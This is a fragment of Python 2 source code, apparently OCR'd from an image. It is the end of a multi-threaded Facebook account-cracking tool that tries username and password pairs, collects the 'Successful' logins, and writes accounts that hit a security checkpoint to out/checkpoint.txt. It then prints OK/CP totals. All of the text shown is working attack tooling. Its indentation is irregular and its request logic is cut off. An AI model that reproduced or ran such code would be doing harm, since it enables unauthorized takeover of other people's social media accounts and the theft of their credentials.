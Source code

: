																z = json.loads(x.text)

																print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass7	

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass7	

																	cek = open("out/checkpoint.txt", "a")

                                                                                                                                        cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

															

		except:

			pass

		

	p = ThreadPool(50)

	p.map(main, id)

	print "\033[1;97m---------------------------------------------------"

	print '\033[1;97mProcess Has Been Completed.'

	print"\033[1;97m-----------------"

	print"\033[1;97mTotal OK/\x1b[1;97mCP \033[1;97m"+str(len(oks))+"\033[1;97m/\033[1;97m"+str(len(cekpoint))

print "\033[1;97m---------------------------------------------------"

raw_input("\n\033[1;93m[\033[1;96mBack\033[1;93m]")

	menu()

if __name__ == '__main__':

	login()
